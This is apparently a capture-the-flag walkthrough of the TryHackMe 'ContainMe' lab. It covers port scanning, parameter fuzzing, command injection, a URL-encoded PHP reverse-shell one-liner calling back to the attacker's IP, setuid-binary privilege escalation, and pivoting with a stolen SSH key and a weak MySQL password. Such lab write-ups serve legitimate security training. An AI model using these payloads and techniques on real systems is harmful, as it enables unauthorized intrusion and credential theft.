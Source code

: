 # [ContainMe (TryHackMe)](https://tryhackme.com/room/containme1)

First, let's scan this thing: 

<code>rustscan -a 10.10.163.146</code>

![PIC_RUST](https://user-images.githubusercontent.com/93183445/141817607-4bf1e9a5-bb79-4117-9c40-a9a2a173efb0.png)

After that, just to be sure, nmap follows: 

<code>nmap -sV -sC -p22,80,2222,8022 10.10.163.146</code>

![PIC_NMAP](https://user-images.githubusercontent.com/93183445/141818585-cd585f86-3984-4137-a29e-c19ffebfc1a3.png)

Let's go after some directories (I added the "-t5" option at the end, because I got a lot of errors): 

<code>feroxbuster --url http://10.10.163.146 -w /usr/share/wordlists/dirb/common.txt -t 5</code>

![PIC_FEROX](https://user-images.githubusercontent.com/93183445/141819090-47390871-02a1-47e9-87e5-7a678fe70824.png)

The index.php shows a directory listing. Let's look at the source.

![PIC_INDEX_1](https://user-images.githubusercontent.com/93183445/141818220-71e224fc-9695-4f2c-bc05-f4efb6375f05.png)

Looks like we're going to search for the path. At this point I try to keep in mind that this 
box is marked as "easy"... Let's go for it!!

Tried a few things, but didn't find anything with directory bruteforcing. Maybe it is a parameter?

<code>ffuf -u http://10.10.163.146/index.php?FUZZ=a -w /usr/share/wordlists/dirb/common.txt</code>

This command spat out an incredible amount of responses. All with status 200. But they all had the same response
size. Let's filter that out and see what happens:

<code>ffuf -u http://10.10.163.146/index.php?FUZZ=a -w /usr/share/wordlists/dirb/common.txt -fs 329</code>

The outcome was:\
<code>path                    [Status: 200, Size: 79, Words: 9, Lines: 11]</code>

So we found the path.
As we could view the directory listing earlier and this is a box marked as easy, I tried simple rce
like id, whoami and so on. Nothing seemed to work.
The only thing that gave something back, was `ls` and `pwd`
(with backticks). So just the directory listing is enabled, it seems.\
So why not try "/"? Bingo..\
I'm able to see the directory listing of "/".\
With this opportunity given, I wanted to take a look in the home directory.\
So I found mike.

![PIC_MIKE](https://user-images.githubusercontent.com/93183445/141819141-6e26bff1-fa75-4ce1-9dd8-cb29e4da2a47.png)

But mike wasn't of great use, since I couldn't read or list the content of ".ssh/".

Still reminding me that this is a box marked as "easy", I tried command injection. With success:

![PIC_WHOAMI](https://user-images.githubusercontent.com/93183445/141819181-05119d8a-1653-4fed-bb16-85babe95f8df.png)

It took me a few tries just to end up using php and url-encoding anfter I wasn't able to netcat or wget anything.\
Again, https://www.revshells.com to the rescue :)

<code>php -r '$sock=fsockopen("MY-IP",9001);exec("sh <&3 >&3 2>&3");'</code>\
Urlencoded we get:\
<code>php%20-r%20%27%24sock%3Dfsockopen%28%22MY-IP%22%2C9001%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27</code>

Add this to the URL in the browser after starting a listener, and we get a callback :)

![PIC_CALLBACK](https://user-images.githubusercontent.com/93183445/141820541-5533b0a1-1f27-4561-9500-106cb802d846.png)

Stabilize the shell with python3:\
<code>python3 -c 'import pty;pty.spawn("/bin/bash")'</code>

Then check mike's home directory (remember the .ssh/ folder from before).\
But we get a "Permission denied". We're still www-data. But there's a binary file we are allowed to execute.\
Let's do that. Nothing happens. Except the fancy output telling us "CRYPTSHELL"..\
Again, trying to keep in mind this being a simple box, I append "mike" for the execution of the binary.\
This time, it took a few seconds to respond, so there's clearly something going on..\
Time for a search after files we are able to execute:

![PIC_CRYPT_1](https://user-images.githubusercontent.com/93183445/141819398-ead3d135-c25a-4df7-a6a2-c852c9080f5d.png)

Looks like we found something interesting..

![PIC_CRYPT_2](https://user-images.githubusercontent.com/93183445/141819430-cf877c52-1037-4575-8211-482a5e729231.png)

Trying the same again with this binary, things take an interesting turn:

![PIC_CRYPT_3](https://user-images.githubusercontent.com/93183445/141819452-30f55aaa-1464-4f43-90d6-d4c042520acd.png)

Welcome to the root-fest :).\
But no luck, the root directory is pretty much empty..\
The hostname is "host1", so maybe there's a number2?\

The following just didn't work somehow..

<code>for i in {1..254} ;do (ping -c 1 172.16.20.$i | grep "bytes from" &) ;done</code>

I mean to some degree, because before it went on telling me
that "Destination Host Unreachable". But inbetween the errors, I saw that 172.16.20.6 was up.\
So I had to stop the loop and reconnect.\
Note to self: *Better use the static nmap next time..* 

Then, the first thing I tried was to connect with the id_rsa from mikes home directory to the newly
found host (still kept in mind this is an easy box..):

<code>ssh -i /home/mike/.ssh/id_rsa mike@172.16.20.6</code>

Aaaaand we're in :)

![PIC_HOST_2](https://user-images.githubusercontent.com/93183445/141819577-4c41309d-254b-49ec-9976-188f752d0148.png)

After searching around a bit, I got to the services. And there it was: port 3306

![PIC_NETSTAT](https://user-images.githubusercontent.com/93183445/141819600-9a0629dd-87ad-463b-bcd1-ac2c7f00ca93.png)

Taking a look at /etc/passwd revealed that there's no other user than mike. So let's get into the database.
It has to be good for something at least..

I tried to login a few times keeping the passwords rather simple. Then I succeeded with:

<code>mysql -umike -ppassword</code> 

Working my way towards the contents of the database gave me the things I needed in the end :) 

![PIC_DATABASE_2](https://user-images.githubusercontent.com/93183445/141819643-05927619-7c95-4e58-ba0a-388538059103.png)

Or at least, I thought so.. (sigh). Still no root flag. 
BUT: 

![PIC_ROOT](https://user-images.githubusercontent.com/93183445/141819661-c219d315-0011-4f31-a6bf-b00a5fff87cc.png)

**Thanks :)**












